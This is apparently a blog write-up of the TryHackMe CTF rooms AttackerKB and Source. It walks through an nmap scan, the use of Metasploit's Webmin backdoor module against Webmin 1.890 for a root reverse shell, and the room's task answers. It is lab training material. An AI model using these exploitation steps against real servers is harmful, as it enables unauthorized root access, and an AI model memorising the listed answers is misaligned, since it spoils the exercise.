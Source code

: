 ```yaml
---
layout: post
title: AttackerKB & Source | Writeup
categories: CTF
author: ThelastVvV
date: '2020-07-11 18:42:53 +0800'
tags:
  - CTF
  - CyberSecurity
  - TryHackMe
published: true
---
```


 Hallå gubbar , Today i will show you how easy this boxes are in a very simple explanation both [AttackerKB](https://tryhackme.com/room/attackerkb) &  [Source](https://tryhackme.com/room/source).
![alt text](https://thelastvvv.github.io/images/posts/1/bloggg.jpg "THM")


- [AttackerKB & Source](#heading)
  * [Enumeration](#Enumeration)
   * [Exploitation](#Exploitation)
  * [Reverse shell](#Reverse shell)
  * [AttackerKB Tasks](#AttackerKB Tasks)
  

<!-- toc -->




### Enumeration:

```sh
$ nmap -T4 -A -v -Pn Box-ip
```
Results:



> PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
| 2048 b7:4c:d0:bd:e2:7b:1b:15:72:27:64:56:29:15:ea:23 (RSA)
| 256 b7:85:23:11:4f:44:fa:22:00:8e:40:77:5e:cf:28:7c (ECDSA)
|_ 256 a9:fe:4b:82:bf:89:34:59:36:5b:ec:da:c2:d3:95:ce (ED25519)
10000/tcp open http MiniServ 1.890 (Webmin httpd)


### Exploitation
Source and AttackerKB:

One of the attached files of vulnerability is metasploit module that will allow us reverse shell the box so let open Metasploit


[https://github.com/rapid7/metasploit-framework/pull/12219]()


using this command:

```sh
$ msfconsole
```



then search "the exploit name or version"


![alt text](https://thelastvvv.github.io/images/posts/1/attack.png "search")


then choose 
```sh
$ unix/webapp/webmin_backdoor
```

![alt text](https://thelastvvv.github.io/images/posts/1/attavk.png "metasploit")



> RHOSTS : Box-ip

>RPORT: Box-port

>LHOST: Your-ip

>SSL : 1


### Reverse shell


![alt text](https://thelastvvv.github.io/images/posts/1/reverse.png "shell")


volia session opened we are root so let check the hints and hunt the flags

User Flag:

![alt text](https://thelastvvv.github.io/images/posts/1/flag1.png "flag1")


Root Flag:


![alt text](https://thelastvvv.github.io/images/posts/1/flagroot.png "flag2")

### AttackerKB Tasks:

Task 2 :

-Discovering the Lay of the Land :

From Nmap results we can find all our answers .....

Answers: 
`2-Webmin`

`3-1.890`

`4- from cert bellow figure it out`

Task 3 :

 learning to fly:

Just explore Attackerkb then we will be able to answer the following "important to copy directly from Attackerkb site 

Answers: 
`3 1.890` 

`4 supply chain`

 `5 aug172019`

`6 githubfileinthetitle`



See you next time .....
